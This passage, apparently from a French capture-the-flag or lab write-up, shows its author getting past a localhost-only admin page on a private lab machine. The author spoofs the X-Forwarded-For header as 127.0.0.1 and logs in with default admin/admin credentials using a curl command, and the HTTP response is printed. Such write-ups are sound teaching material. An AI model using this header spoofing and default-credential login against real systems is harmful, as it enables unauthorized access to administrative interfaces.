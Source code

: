 ```console
        <label for="exampleInputPassword">Password</label>
        <input type="password" class="form-control" name="password" placeholder="Password">
    </div>
    <button type="submit" class="btn btn-primary">Submit</button>
 </div>

</form>
</body>
</head>
</html>
```

Bingo ! En spécifiant le header `X-Forwarded-For` je fais croire que je viens de la machine locale et passe la restriction.

Pour la suite, j'aurais pu utiliser ZAP, mitmproxy ou encore un plugin de navigateur pour ajouter l'entête sur chaque requête HTTP, mais j'ai préféré tout faire via `curl`.

J'ai par exemple testé les identifiants `admin` / `admin` qui se sont avérés être valides :

```console
$ curl -D- -XPOST http://192.168.56.112/adminstration/ -H "X-Forwarded-For: 127.0.0.1" --data "username=admin&password=admin"
HTTP/1.1 302 Found
Date: Thu, 26 Jun 2025 13:58:07 GMT
Server: Apache/2.4.10 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Set-Cookie: PHPSESSID=8gklhf94h9uidgfpb2q97uncu2; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
location: dashborad
Content-Length: 953
Content-Type: text/html

Hello admin welcome back !!<html>
<head>
<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.5.3/dist/css/bootstrap.min.css" integrity="sha384-TX8t27EcRE3e/ihU7zmQxVncDAy5uIKz4rEkgIXeMed4M0jlfIDPvg6uqKI2xXr2" crossorigin="anonymous">
<body>
<form action="" method="POST">
 
 <div class="container mt-5">
    <div class="form-group">
        <label for="exampleInputUsername">Username</label>
        <input type="text" class="form-control" name="username" placeholder="Enter username">
        <small id="emailHelp" class="form-text text-muted">We'll never share your username with anyone else.</small>
    </div>
    <div class="form-group">
        <label for="exampleInputPassword">Password</label>
        <input type="password" class="form-control" name="password" placeholder="Password">
    </div>
    <button type="submit" class="btn btn-primary">Submit</button>
 </div>

</form>
</body>
</head>
</html>
```
